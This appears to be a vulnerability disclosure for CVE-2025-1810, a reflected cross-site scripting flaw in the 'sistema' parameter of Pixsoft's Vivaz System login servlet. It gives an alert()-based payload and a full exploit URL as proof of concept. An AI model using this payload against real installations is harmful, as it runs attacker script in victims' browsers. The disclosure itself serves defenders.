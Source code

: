 # CVE-2025-1810
The Vivaz System by Pixsoft is vulnerable to Reflected Cross-site-scripting.

**Affected Version: < 6.0.11**
  

## POC

This vulnerability resides in the /servlet?act=login&submit=1&evento=0&pixrnd=0125021817031859360231&sistema=0 page in sistema parameter,

Its possible to manipulate the parameter to insert any JavaScript code in victim browser.

Payload example: `"><img%20src%20onerror=alert()>`.

You can check the alert box on the screen, this means that our injections is working.

## Request example:
![alt text](xss.png)


---

## Full url
https://IP/servlet?act=login&submit=1&evento=0&pixrnd=0125021817031859360231&sistema="><img%20src%20onerror=alert()>

---

## Reference


https://www.pixsoft.com.br/vivaz-software-service-desk.htm